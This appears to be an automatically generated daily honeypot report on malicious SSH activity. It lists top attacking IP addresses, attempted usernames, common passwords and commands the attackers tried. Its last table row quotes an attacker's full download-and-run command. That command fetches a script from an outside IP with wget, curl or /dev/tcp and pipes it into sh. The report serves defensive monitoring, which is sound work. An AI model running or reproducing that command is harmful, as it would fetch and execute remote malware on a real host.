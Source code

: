 # ZOE - The daily report for the malicious behavior

> daily report for the malicious user behavior

This is the daily report for the malicious user behavior. It is generated by the ZOE system.

## SSH

The following table shows the top 10 malicious SSH users that have been detected by the ZOE
system. The table is sorted by the number of attempts.

### Top 10 malicious users

| Client IP | Count    |
|-----------|----------|
| 47.90.216.171 | 4781 |
| 47.109.157.6 | 4769 |
| 139.129.13.203 | 4742 |
| 47.237.2.192 | 4714 |
| 47.97.60.163 | 4655 |
| 47.76.135.189 | 4248 |
| 139.196.79.175 | 2109 |
| 8.135.77.231 | 421 |
| 47.109.53.53 | 172 |
| 39.109.126.174 | 160 |

### Top 10 malicious try to login as

| Usernames | Count    |
|-----------|----------|
| root | 1152 |
| admin | 188 |
| ubuntu | 138 |
| test | 130 |
| user | 117 |
| postgres | 74 |
| deploy | 72 |
| steam | 70 |
| dev | 68 |
| debian | 61 |

### Top 10 malicious try to authenticate with

| Password | Count    |
|-----------|----------|
| 123456 | 40 |
| password | 26 |
| 1234 | 22 |
| P@ssw0rd | 18 |
| 123 | 18 |
| Aa123456 | 17 |
| 12345678 | 16 |
| Admin@123 | 14 |
| test | 13 |
| 456123 | 13 |

### Top malicious commands try to execute

| Client | Command |
|--------|---------|
| 120.27.238.214 | uname -s -m |
| 120.27.140.190 | uname -s -m |
| 47.251.29.45 | uname -s -m |
| 120.26.84.54 | uname -s -m |
| 47.251.100.22 | uname -s -m |
| 39.109.126.174 | uname -s -m |
| 87.120.113.231 | uname -a; echo -e "\x61\x75\x74\x68\x5F\x6F\x6B\x0A"; SC=$(wget -O- http://94.156.177.109/sh \|\| curl http://94.156.177.109/sh); if [ $? -ne 0 ]; then exec 3<>"/dev/tcp/94.156.177.109/80"; echo -e "GET /sh HTTP/1.0\r\nHost: 94.156.177.109\r\n\r\n" >&3; (while read -r line; do [ "$line" = $'\r' ] && break; done && cat) <&3 \| sh -s ssh; exec 3>&-; else echo "$SC" \| sh -s ssh; fi |
